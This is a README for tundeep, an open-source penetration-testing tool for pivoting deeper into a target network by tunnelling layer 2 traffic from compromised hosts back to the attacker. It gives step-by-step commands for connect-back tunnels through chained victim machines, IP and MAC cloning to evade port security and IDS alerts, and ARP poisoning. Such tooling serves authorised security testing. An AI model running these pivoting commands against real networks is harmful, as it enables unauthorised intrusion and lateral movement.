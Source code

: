 # TUNDEEP
## Adam Palmer


    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <http://www.gnu.org/licenses/>.


* __Name__:         tundeep v1.0
* __Author__:       [Adam Palmer (npn)](https://www.adampalmer.me/) (adam@adampalmer.me)
* __README__:       https://www.adampalmer.me/iodigitalsec/tundeep/

  > Source: http://www.cis.syr.edu/~wedu/seed/Labs/VPN/files/simpletun.c  
  > Source: Various stackoverflow posts  
  > Source: Libpcap documentation  
  > Source: Beej's Network Guide  
  > Source: http://www.logix.cz/michal/devel/ (getaddrinfo)  

Please direct questions, comments, criticism and bug reports to adam@adampalmer.me. 

### Contents:

  1. Purpose
  2. Installation
  3. Scenario
  4. Usage
    4a. TCP Mode
    4b. UDP Mode
    4c. IPv6 Mode
    4d. Misc
  5. Changelog
  6. The future

### 1. Purpose:

  This is a network tunnelling tool. 

  For pivoting/tunnelling deeper into a target network, we have a couple of options;

  * Option 1 - Metasploit's `autoroute` module. Disadvantages: Works great, but only works from within metasploit. No use for running external tools.
  * Option 2 - Metasploit's portfwd module/iptables/simpleproxy. Disadvantages: Only forwards specified single layer 3 UDP/TCP ports.
  * Option 3 - Proxychains/ssh `-D SOCKS` tunnelling. Disadvantages: Proxychains is a hack in itself, and only supports layer 3 TCP.
  * Option 4 - Implement a VPN server and set up bridging on your victim. Disadvantages: disasterous idea

  This tool presents a `tap0` interface for your target network on your local machine. On the target end, it does not require `drivers/kernel`
modules to be installed beyond libpcap. This tool supports ARP and ARP scanning/poisoning on your target network no matter how many layers deep you tunnel. 

  This tool should support any layer 2 ethernet protocol. Code has been borrowed from various sources including those above. As we have a tap interface now bound to the
remote network, we are able to run any tools that we wish, as if we were directly connected to the target network.


### 2. Installation:

  `-D_LINUX` adds tun/tap support in the makefile, `-D_COMPRESS` adds zlib compression support

  Tested on Debian Squeeze 32bit and 64bit, and Windows XP Pro. This tool requires `libpcap`/`winpcap`

  On Windows, you'll need `Cygwin` and all the relevant tools such as `libc`, `make`, `gcc`.

  On Windows:

  * [Untested] Guide to winpcap silent install: http://paperlined.org/apps/wireshark/winpcap_silent_install.html
  * [Tested] libwpcap support in cygwin: http://mathieu.carbou.free.fr/wiki/?title=Winpcap_/_Libpcap

  To compile and run on Kali:

      apt-get install zlib1g-dev libpcap-dev
      git clone https://github.com/iodigitalsec/tundeep
      cd tundeep
      make
      ./tundeep

  You can change debug levels via the `DEBUG` variable in `def.h`


### 3. Scenario:

  `[Attacker 192.168.200.40 (eth0)]-----[192.168.200.41(eth0) VICTIM 1 10.0.0.5(eth1)]------[10.0.0.10(eth0) VICTIM2 10.10.10.20(eth1)]--------[10.10.10.21(eth0) VICTIM3]`

  This tool will bring up a `tap0` interface on the attacking machine, tunnelled via packet injection on the remote end to the target network.

  We have two main strategies. Looking at the scenario above, our first step is to pivot onto the `10.0.0.5` interface of Victim 1. We have two options:

  1. Match Victim1's eth1 IP and MAC exactly on our own `tap0` interface specifying `-x`, `-y` and `-u` on the attacking machine. This is the least detectable as it does not bring up any new IP or MAC addresses on the target network and we can evade port security. It may however interfere with legitimate traffic on Victim 1. 
  2. The second option is to assign our own IP and/or MAC to be tunnelled through. This is going to be more reliable, but less stealthy and may trigger IDS/switch/port security alerts.

  The next consideration is that all traffic that Victim1 receives on eth1 is tunnelled back to us. This will create network congestion at minimum, and service unavailability or worse. 
  It's not advisable to run this on a heavy traffic production environment. Also consider where you run this tool from. Running this where the connection between attacker and victim1's `eth0` is slower than victim1's eth1 and it's peers is a bad idea.

  The final option if this is really a problem, is using the bpf. I can think of two useful cases for the bpf:
  1. Specify a new IP to bring up on the target network via `-x`/`-y` and on both sides use `-b "host $ip"`.
  2. Retain the Victim's IP, and use `"tcp port $port"` on both sides to specify a particular port you wish to tunnel through.


### 4. Usage:

#### 4a. TCP Mode:


On our attacking machine -
1.
       tundeep -s -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02

	Here we will bring up a tap0 interface on our machine with the same MAC (-u) and IP/Mask (-x/-y) as the network we want to pivot to (Victim1's eth1).

	On our victim 1: `tundeep -i eth1 -h 192.168.200.40 -p 5000 -c`	Connect back to our attacker on port 5000.

	We can now `ping 10.0.0.10`, i.e. victim2 directly from our machine. TCP/UDP/ICMP and ARP have all been tested. 

2. 	Now to tunnel deeper. On our attacking machine:

	    tundeep -s -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac

	Here we will bring up a tap1 interface on our attacking machine, with the same MAC/IP as Victim 2's eth1
	On our victim 2: `tundeep -i eth1 -h 10.0.0.5 -p 5001 -c`

	Now we can `ping 10.10.10.21`, i.e. victim 3. We can continue tunnelling as deep as we need.


#### 4b. UDP Mode:

  There's no client and server side. Each side needs it's endpoint specified via -e and it's listen IP via `-h`. 
  To use the scenarios above. On our side:

  1.
         tundeep -d -e 192.168.200.41 -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02

      and on the victim:

         tundeep -d -e 192.168.200.40 -i eth1 -h 0.0.0.0 -p 5000

  2.
          tundeep -d -e 10.0.0.10 -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac

     and on the victim:

          tundeep -d -e 10.0.0.5 -i eth1 -h 192.168.200.40 -p 5001

#### 4c. IPv6 Mode:

  There are two methods to utilize IPv6. The sniffing and injection portion works at layer 2 and is therefore IP version independant.
  Specifying -T on the tap node specifies IPv6 address usage. In that case -x specifies the IPv6 IP and -y specifies the prefix length.
  i.e. `./tundeep -T tap0 -h 0.0.0.0 -p 5000 -s -x fe80::80aa:2aff:fe0b:383f -y 64`
  Using this option, we can tunnel IPv6 over an existing IPv4 socket/network.

  The next option is in tunneling IPv4 over an existing IPv6 network, `-6` option puts the socket into IPv6 mode:

    `./tundeep -T tap0 -h "::0" -p 5000 -s -x 192.168.5.5 -y 255.255.255.0`

  Of course, -T and -6 can be used together for full IPv6.


#### 4d. Misc:

### 5. Changelog:

  tundeep v0.1a (2013-09-10):
  - Initial Release

  tundeep v0.2a (2013-09-16):
  - IPv6 support (-6, -T)
  - Compression support (-C) - must be enabled on both sides
  - Better error checking and debugging
  - Misc bug fixes and code improvements
  - Makefile improvements to detect Cygwin/Linux without manual edits
  - README updates
  - Added default checksum feature (-K disables) - added overhead, improved reliability. Must be disabled on both sides

### 6. The Future:

Future release plans:
- Code cleanup
- MAC/IP mangling support
